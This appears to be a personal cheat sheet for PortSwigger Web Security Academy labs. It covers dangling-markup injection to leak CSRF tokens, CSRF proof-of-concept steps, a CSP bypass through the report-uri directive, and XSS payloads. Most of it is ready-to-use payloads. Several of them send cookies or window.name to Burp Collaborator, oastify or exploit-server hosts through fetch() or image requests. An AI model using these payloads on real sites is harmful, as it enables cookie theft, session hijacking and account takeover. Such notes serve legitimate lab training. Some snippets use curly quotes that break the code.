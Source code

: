 ```
"><img src='//attacker-website.com?
```
Here src of image is not ending, but lefts 'dangling'.  
Because of this, browser will send everything before next single-quote to attacker's server.  
Potentially it could contain sensitive data.  
To gain csrf token:
```
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
OR
```
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email="></form><form%20class="login-form"%20name="evil-form"%20action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log"%20method="GET"><button%20class="button"%20type="submit">%20Click%20me%20</button>';
</script>
```
We can generate CSRF PoC from Burp Suite to perform CSRF attacks  
Use erquest which we want to be CSRF'd and click Engagement Tools - CSRF PoC.  
The use CSRF PoC script with previous XSS script on exploit server and deliver it to victim.  

## Bypassing CSP
If we see that website reflects our input into CSP policy (commonly in `report-uri` directive), we can add our own policy with semicolon.  
Also we can try to override script-src-elem directive in Chrome.  
```
<script>alert()</script>&token=;script-src-elem 'unsafe-inline'
```

## Helpful
Steal cookies collaborator:
```
<script>
fetch(‘https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

Steal Cookies Exploit Server:
```
<script> fetch(‘https://YOUR-SUBDOMAIN-HERE.exploitserver.net/x’+document.cookie); </script>
```
<script src="https://0a18002f0338b8e78172ca54001b0096.web-security-academy.net/?search_term=%3Cxss+id%3Ddux8x+onmouseover%3Dfetch%28%27https%3A%2F%2Fyqsn2nmx3qehvxkuqrr2tgzuslycm7aw.oastify.com%3Fc%3D%27%2Bdocument.cookie%29+style%3Dposition%3Aabsolute%3Bwidth%3A100%25%3Bheight%3A100%25%3Btop%3A0%3Bleft%3A0%3B+hvjfa+onbeforeinput%3Dalert%28%29%3E"></script>